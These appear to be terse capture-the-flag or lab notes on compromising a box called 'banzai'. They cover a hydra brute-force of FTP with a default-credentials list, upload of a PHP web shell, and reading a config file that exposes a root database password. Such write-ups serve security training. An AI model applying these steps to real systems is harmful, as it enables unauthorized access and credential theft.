



_____

IP=192.168.241.56

# 21 - ftp

brute - force

```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt $IP ftp
```

admin:admin



Port 8295



put shell.php
port 21

# PrivEsc




```bash
www-data@banzai:/var$ cd www  
www-data@banzai:/var/www$ ls  
config.php html  
www-data@banzai:/var/www$ cat config.php   
<?php  
define(‘DBHOST’, ‘127.0.0.1’);  
define(‘DBUSER’, ‘root’);  
define(‘DBPASS’, ‘EscalateRaftHubris123’);  
define(‘DBNAME’, ‘main’);  
?>
```
